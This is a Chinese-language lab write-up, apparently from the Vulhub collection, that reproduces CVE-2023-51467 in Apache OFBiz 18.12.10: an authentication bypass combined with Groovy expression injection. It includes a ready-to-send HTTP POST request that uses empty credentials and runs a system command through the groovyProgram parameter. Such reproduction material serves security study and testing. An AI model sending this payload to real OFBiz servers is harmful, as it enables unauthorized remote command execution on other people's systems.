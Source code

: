 # Apache OfBiz 鉴权绕过导致命令执行 CVE-2023-51467

## 漏洞描述

Apache OFBiz是一个非常著名的电子商务平台，是一个非常著名的开源项目，提供了创建基于最新J2EE/XML规范和技术标准，构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类WEB应用系统的框架。 OFBiz最主要的特点是OFBiz提供了一整套的开发基于Java的web应用程序的组件和工具。包括实体引擎, 服务引擎, 消息引擎, 工作流引擎, 规则引擎等。

这个漏洞的原因是对于[CVE-2023-49070](https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2023-49070)的不完全修复。在Apache OFBiz 18.12.10版本中，官方移除了可能导致RCE漏洞的XMLRPC组件，但没有修复权限绕过问题。来自长亭科技的安全研究员利用这一点找到了另一个可以导致RCE的方法：Groovy表达式注入。

参考连接：

- [https://github.com/apache/ofbiz-framework/commit/d8b097f6717a4004acf023dfe929e0e41ad63faa](https://github.com/apache/ofbiz-framework/commit/d8b097f6717a4004acf023dfe929e0e41ad63faa)
- [https://xz.aliyun.com/t/13211](https://xz.aliyun.com/t/13211)
- [https://y4tacker.github.io/](https://y4tacker.github.io/2023/12/27/year/2023/12/Apache-OFBiz%E6%9C%AA%E6%8E%88%E6%9D%83%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%B5%85%E6%9E%90-CVE-2023-51467/)

## 环境搭建

Vulhub 执行如下命令启动一个Apache OfBiz 18.12.10服务器：

```
docker compose up -d
```

在等待数分钟后，访问`https://your-ip:8443/accounting`查看到登录页面，说明环境已启动成功。

如果是非本地 localhost 启动，Headers 需要包含 `Host: localhost`，否则报错：

```
ERROR MESSAGE
org.apache.ofbiz.webapp.control.RequestHandlerException: Domain 60.204.216.3 not accepted to prevent host header injection. You need to set host-headers-allowed property in security.properties file.
```

![](images/Apache%20OfBiz%20鉴权绕过导致命令执行%20CVE-2023-51467/image-20240104105738488.png)

## 漏洞复现

直接发送如下请求即可使用Groovy脚本执行`id`命令：

> Host: localhost

```
POST /webtools/control/ProgramExport/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: localhost:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 55

groovyProgram=throw+new+Exception('id'.execute().text);
```

![](images/Apache%20OfBiz%20鉴权绕过导致命令执行%20CVE-2023-51467/image-20240104105846768.png)
